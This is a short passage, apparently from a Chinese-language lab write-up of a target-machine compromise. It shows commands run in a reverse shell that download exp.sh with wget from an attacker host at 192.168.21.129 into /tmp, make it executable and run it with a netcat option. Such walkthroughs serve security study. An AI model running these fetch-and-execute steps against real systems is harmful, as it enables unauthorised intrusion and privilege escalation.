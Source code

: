 - 使用`vi`命令修改`exp.sh`

![image-20240824160454347](./assets/image-20240824160454347.png)

```
//将靶机反弹回来的shell处使用命令
cd /tmp
wget http://192.168.21.129/exp.sh
```

![image-20240824172021051](./assets/image-20240824172021051.png)

- 使用`chmod +x exp.sh`赋予权限
- 使用`./exp.sh -m netcat`来执行命令
